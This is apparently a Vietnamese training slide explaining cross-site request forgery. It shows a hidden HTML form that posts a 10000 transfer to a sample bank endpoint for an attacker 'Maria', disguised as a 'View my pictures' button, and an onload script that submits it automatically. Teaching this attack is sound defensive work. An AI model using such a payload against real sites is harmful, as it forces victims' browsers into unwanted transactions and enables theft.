

#
Maria tiếp tục khai thác bằng một cách khác:
 	<form action="http://bank.com/transfer.do" method="POST">
	<input type="hidden" name="acct" value="MARIA"/>
	<input type="hidden" name="amount" value="10000"/>
	<input type="submit" value="View my pictures"/>
	</form>
Để thực hiện gửi request form trên yêu cầu user phải click vào button, tuy nhiên có thể thực hiện gửi request tự động bằng JavaScript:
	<body onload="document.forms[0].submit()">